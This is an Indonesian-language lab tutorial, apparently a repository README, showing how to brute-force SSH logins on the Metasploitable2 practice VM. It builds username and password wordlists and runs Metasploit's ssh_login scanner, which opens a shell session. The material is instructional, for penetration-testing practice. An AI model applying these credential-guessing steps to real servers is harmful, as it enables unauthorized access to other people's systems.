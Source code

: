 # Exploit Port 22 (SSH)
- Buat file dengan nano yang berisi daftar user untuk uji coba
```sh
nano user-metasploitable2.txt
```

- Isi file tersebut dengan daftar user sebagai berikut. Kemudian tekan `Ctrl+o` lalu `enter` untuk menyimpan
```sh
root
admin
msfadmin
administrator
guest
user
test
postgres
oracle
```

- Buat file dengan nano yang berisi daftar password untuk uji coba
```sh
nano password-metasploitable2.txt
```


- Isi file tersebut dengan daftar password sebagai berikut. Kemudian tekan `Ctrl+O` lalu `enter` untuk menyimpan
```sh
qwerty
1234
admin
12345
msfadmin
123123
12345678
```

- Buka msfconsole di terminal
```sh
msfconsole
```

- Cari modul untuk exploit SSH
```sh
search ssh
```

- Gunakan modul `auxiliary/scanner/ssh/ssh_login` untuk brute force SSH login
```sh
use auxiliary/scanner/ssh/ssh_login
```

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```

- Isi parameter yang dibutuhkan di modul tersebut
```sh
set RHOST <IP_metasploitable2>
set VERBOSE true
set USER_FILE /home/kali/user-metasploitable2.txt
set PASS_FILE /home/kali/password-metasploitable2.txt
set STOP_ON_SUCCESS true
```

- Setelah pengisian parameter selesai jalankan proses brute force. Disini kita berhasil login ke SSH dengan username msfadmin password msfadmin yang berada di session 1
```sh
run
```

- Akses session 1
```sh
sessions -i 1
```
